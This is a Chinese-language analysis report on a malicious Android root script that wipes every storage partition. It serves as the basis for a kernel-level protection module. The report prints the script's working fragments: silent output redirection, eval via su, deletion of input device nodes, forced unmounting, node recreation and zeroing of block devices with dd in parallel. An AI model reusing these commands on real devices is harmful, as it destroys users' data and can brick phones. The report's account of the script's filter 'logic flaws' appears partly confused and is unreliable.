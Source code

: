 # 恶意Android脚本分析报告

## 脚本概述

这是一个极其危险的Android恶意脚本，主要目的是擦除设备上的所有存储分区，造成设备完全损坏（"砖机"）。

## 脚本分析

### 隐匿性技术

1. **输出重定向隐匿**
   ```bash
   exec >/dev/null 2>&1
   ```
   - 将所有标准输出和错误输出重定向到 `/dev/null`
   - 使脚本执行过程完全静默，用户无法察觉

2. **工具别名伪装**
   ```bash
   for c in `toybox`
   do
   alias $c=/system/bin/toybox\ $c
   done
   ```
   - 为所有toybox命令创建别名
   - 可能用于绕过某些安全检测机制

3. **间接执行**
   ```bash
   export variable=`main`
   /system/bin/su -c 'eval "$variable"'
   ```
   - 将恶意代码存储在变量中，然后通过eval执行
   - 增加静态分析的难度

### 攻击机制

#### 1. 输入设备破坏
```bash
rm -f /dev/input/*
```
- 删除所有输入设备节点
- 导致触摸屏、按键等输入设备失效
- 阻止用户中断攻击过程

#### 2. 分区发现与过滤
```bash
tail -n +2 /proc/partitions | grep -E sd*\|mmcblk*
```
- 从 `/proc/partitions` 获取所有存储设备信息
- 过滤出SD卡和eMMC设备
- 跳过第一行标题

#### 3. 分区大小过滤逻辑漏洞
```bash
d=`echo $a | awk '{print $3}'`
[ ${#d} -gt 6 ] || [ $d -gt 307200 ] && continue
```
**逻辑漏洞分析：**
- 条件：分区名长度>6字符 OR 分区大小>307200KB (300MB)
- **漏洞1**: 使用字符串长度判断而非数值比较
- **漏洞2**: 307200KB阈值过小，会跳过大分区但攻击小分区
- **漏洞3**: 逻辑运算符使用错误，应该用 `&&` 而非 `||`

#### 4. 设备节点重建与擦除
```bash
b=/dev/block/`echo $a | awk '{print $4}'`
umount -f $b
rm -f $b
mknod $b b `echo $a | awk '{print $1}'` `echo $a | awk '{print $2}'`
blockdev --setrw $b
chmod 0600 $b
dd if=/dev/zero of=$b
```
- 强制卸载分区
- 删除并重建设备节点
- 设置为读写模式
- 使用dd命令用零填充整个分区

#### 5. 并行执行
```bash
{ ... } &
```
- 所有擦除操作在后台并行执行
- 加速攻击过程，难以中断

## 危险性评估

### 高危险性
- **数据完全丢失**: 擦除所有用户数据和系统分区
- **设备无法启动**: 破坏bootloader和系统分区
- **硬件损坏风险**: 可能损坏关键固件分区
- **无法恢复**: 一旦执行，设备基本无法修复

### 攻击目标分区
脚本会攻击所有检测到的存储分区，包括但不限于：
- 用户数据分区 (userdata)
- 系统分区 (system)
- 启动分区 (boot)
- 恢复分区 (recovery)
- 固件分区 (各种bootloader分区)

## 防护策略

### 1. 敏感分区保护列表
需要特别保护的关键分区：
- `persist`, `vm-persist` - 持久化数据
- `modem_a`, `modem_b` - 基带固件
- `modemst1`, `modemst2` - 基带配置
- `fsg`, `fsc` - 文件系统配置
- `abl_a`, `abl_b` - Android Bootloader
- `featenabler_a`, `featenabler_b` - 功能启用器
- `xbl_*` - 扩展Bootloader相关分区
- `vendor_boot_a`, `vendor_boot_b` - 厂商启动分区
- `ocdt` - 设备配置表

### 2. 检测点
- 监控 `dd` 命令执行
- 检测对 `/dev/block/*` 的写操作
- 监控 `mknod` 创建块设备
- 检测 `umount -f` 强制卸载

### 3. 用户交互机制
- 音量键确认机制
- 5秒超时自动拒绝
- 敏感分区自动拒绝

## 技术实现要点

### KPM模块需要实现的功能
1. **系统调用拦截**: Hook `sys_write`, `sys_openat` 等
2. **命令行解析**: 检测dd命令及其参数
3. **分区识别**: 识别目标分区是否为敏感分区
4. **用户交互**: 实现音量键监听和超时机制
5. **日志记录**: 记录所有拦截事件

### 关键挑战
- 内核空间用户交互实现
- 音量键事件在内核层的捕获
- 系统调用hook的稳定性
- 性能影响最小化

## 结论

这个恶意脚本利用了Android系统的root权限和设备节点访问机制，通过巧妙的隐匿技术和并行执行，能够在短时间内完全破坏设备。其逻辑漏洞主要在分区过滤算法上，但这并不能降低其危险性。

开发KPM防护模块是必要的，需要在内核层面拦截危险操作，并提供用户确认机制来防止此类攻击。